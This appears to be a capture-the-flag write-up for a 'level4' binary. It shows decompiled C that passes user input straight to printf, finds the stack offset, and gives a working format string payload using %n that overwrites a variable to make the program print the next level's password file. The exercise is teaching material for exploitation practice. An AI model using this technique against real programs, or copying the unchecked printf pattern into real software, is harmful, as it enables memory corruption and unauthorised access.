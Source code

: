Here is the decompiled code :

```c
void p(char *param_1)

{
  printf(param_1);
  return;
}

void n(void)

{
  char local_20c [520];

  fgets(local_20c,0x200,stdin);
  p(local_20c);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

void main(void)

{
  n();
  return;
}
```

We see a main, n() and p().
Same drill as the previous level, a format string exploit.

Let's do it.

Address of m is 0x08049810

0x1025544 is equal to 16930116 in decimal. We have to add that to the 4 bytes of the address of m in our input and know which arg to write to and we will be set.

To find the position :
```
./level4 
aaaa %x %x %x %x %x %X %X %X %X %X %X %X
aaaa b7ff26b0 bffff794 b7fd0ff4 0 0 BFFFF758 804848D BFFFF550 200 B7FD1AC0 B7FF37D0 61616161
```
we can see it is the 12th arg.

So the we need to write at the address 0x08049810 16930116 - 4 bytes with the 12th arg of printf.

[ addr of m ] [ 16930112 bytes writes to 12th pos ]

`(python -c 'print("\x10\x98\x04\x08%16930112d%12$n")'; cat) | ./level4`

Done
